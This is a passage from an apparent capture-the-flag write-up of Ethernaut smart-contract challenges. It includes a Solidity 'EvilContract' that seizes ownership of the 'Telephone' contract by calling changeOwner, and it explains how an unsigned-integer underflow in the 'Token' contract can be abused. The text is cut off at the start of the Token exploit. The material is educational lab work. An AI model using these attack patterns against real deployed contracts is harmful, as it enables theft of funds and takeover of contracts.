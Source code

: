 ### Exploit

Based on our analysis we understand all we need is to call the function from an evil contract and pass our address as paramater.

```js
interface TelephoneInterface{ 
    function changeOwner(address _owner) external; 
}

contract EvilContract { 
    
    TelephoneInterface victimContract;
    contructor(address victimAddress) public {
        victimContract = TelephoneInterface(victimAddress);
    }

    function becomeOwner(address newOwner){
        victimContract.changeOwner(newOwner);
    }
}
```

Challenge solved ✅

## Token

### Analysis

This challenge is about **unsigned integers**. We need to be extra duper careful when handling them as they *overlap*. What does that mean ? 

```c#
uint8 X= 255;
X=X+1 // X = 0 ;
```
Now you see it.

![Token method](images/61490e01f7f4c0dcaaa9366ce4607e17714ff36452e562e06c8bcd0d048c335a.png)  

```js
 require(balances[msg.sender] - _value >= 0); // How about we pass a big value to this poor unsigned balances[msg.sender] ?
```

### Exploit
